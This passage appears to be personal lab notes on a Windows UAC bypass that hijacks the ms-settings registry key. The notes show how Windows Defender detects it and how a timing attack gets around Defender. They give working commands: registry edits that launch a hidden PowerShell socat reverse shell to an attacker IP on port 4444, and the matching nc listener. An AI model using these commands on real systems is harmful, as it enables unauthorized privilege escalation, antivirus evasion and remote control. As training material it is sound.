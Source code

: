 ![](/assets/img/Pasted image 20230119234808.png)

- By clicking the notification, we can check the details on the alert, which mention a UAC bypass attempt by modifying a registry value:

![](/assets/img/Pasted image 20230119235754.png)

![](/assets/img/Pasted image 20230119235823.png)

	- Shows the exact registry key value that was opened and modified.

**Does it undo the behaviour or blocks it atleast?**

![](/assets/img/Pasted image 20230120000040.png)

	- The "Default" variable isn't here. Windows Defender removed that as well?

- If you query the corresponding value on the registry, you will notice it has been `erased`:

```shell-session
C:\Windows\system32>reg query %REG_KEY% /v ""
```

![](/assets/img/Pasted image 20230120000823.png)

- Although by now it would seem our exploit wouldn't work with Windows Defender enabled, check what happens if you run the same commands but with a slight modification (be sure to replace your IP address where needed):

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    DelegateExecute    REG_SZ    
    (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
```

	- Notice that in the last command, it was modified and added the "reg query %REG_KEY%" which checks the modified registry key.
	- Notice that although Windows Defender flagged it, it took a while before it erases it.
	- In this case, we could apply a Timing attack!

### Windows Defender Evasion via Timing Attack with UAC Bypassing privilege escalation

	1. Set a reverse listener on the attacker's machine:

`# nc -lvnp 4444`
